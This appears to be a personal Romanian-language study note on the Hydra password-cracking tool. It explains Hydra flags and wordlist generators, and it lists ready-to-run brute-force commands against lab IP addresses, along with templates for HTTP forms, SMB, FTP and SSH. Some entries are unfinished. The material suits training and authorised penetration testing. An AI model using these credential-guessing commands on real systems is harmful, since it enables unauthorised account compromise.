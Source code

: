 `-C` -- pentru perechea de `user:pass`
`-s` -- portul pentru serviciul specificat
`http-get` -- este folosit pentru formul care esa momental pe site 
`-f` -- se opreste daca gaseste username si parola corecta
`-L` -- lista de username
`-l` -- pentru un username static
`-P` -- lista de passwords
`-p` -- pentru un password static
`-u` -- ?
`http-post-form -U` - ne arata unele exemple si cum trebuie sa fii folosita formul dat

Pentru a genera dictionarile pentro o victina putem folosi instrumentul [[cupp]] in caz ca avem nevoie de shimbare unui cuvant cu altul sau schimbari folosim [[rsmangler]] (https://github.com/digininja/RSMangler) sau [The Mentalist](https://github.com/sc0tfree/mentalist.git). 



# Exemples
```bash
hydra -C Default-Credentials/ftp-betterdefaultpasslist.txt -s 35040  94.237.62.195 http-get /
```

```bash 
hydra -P /usr/share/wordlists/rockyou.txt -L Names/names.txt -u -f 94.237.62.195 -s 53474 http-get /
```

```bash
hydra -C Default-Credentials/ftp-betterdefaultpasslist.txt 94.237.59.206 -s 49589 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```


### SMB Brute
Pentru a sparce parola la serviciul [[SMB]] putem folosi comanda:
```bash
hydra -L <path_to_wordlist> -P <path_to_wordlist> -t 25 smb://<IP>
```
In caz ca stim `user`-ul putem sal setam in formatul dat `-l jim` la fel putem proceda cu parola.
### FTP Brute
???
```bash
hydra -l <user> -P <path_to_wordlist> ftp://<IP>
```

### SSH Brute
```bash
hydra -l <user> -P <path_to_wordlist> <IP_DOMAIN> -t 4 ssh 
```
`-t` - este numarul de `threads` dorite pentru utilizare

### Web Brute
```bash
hydra -l <user> -P <path_to_wordlist> <IP_DOMAIN> ???
```

